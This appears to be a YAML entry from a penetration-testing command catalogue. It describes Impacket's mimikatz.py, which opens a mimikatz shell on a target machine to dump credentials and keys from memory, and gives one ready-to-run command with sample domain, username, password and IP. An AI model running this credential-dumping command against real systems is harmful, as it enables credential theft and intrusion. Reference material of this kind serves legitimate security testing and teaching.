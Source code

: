 ```yaml
---
description: |
  Impacket's mimikatz.py will drop you into a mimikatz shell on the target machine, allowing you to perform any mimikatz-related actions, such as dumping credentials from memory, dumping keys, etc.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 mimikatz.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/mimikatz.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

